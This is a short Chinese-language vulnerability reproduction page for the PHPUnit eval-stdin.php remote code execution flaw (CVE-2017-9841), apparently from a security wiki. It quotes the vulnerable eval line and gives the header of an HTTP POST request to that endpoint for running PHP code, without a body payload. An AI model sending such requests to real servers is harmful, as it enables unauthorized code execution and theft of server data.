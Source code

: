 # PHPUnit eval-stdin.php 远程命令执行漏洞 CVE-2017-9841

## 漏洞描述

PHPUnit5.6.3之前的版本，存在一处远程代码执行漏洞，利用漏洞可以获取服务器敏感信息及权限。

## 漏洞影响

<a-checkbox checked>PHPUnit < 5.6.3</a-checkbox></br>

## 漏洞复现

漏洞位于 `/phpunit/src/Util/PHP/eval-stdin.php`

其中关键代码为:

```plain
eval('?>'.file_get_contents('php://input'));
```

发送如下请求包执行PHP代码

```plain
POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
Host: 
Content-Length: 21
Accept-Encoding: gzip
```

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313100236521.png)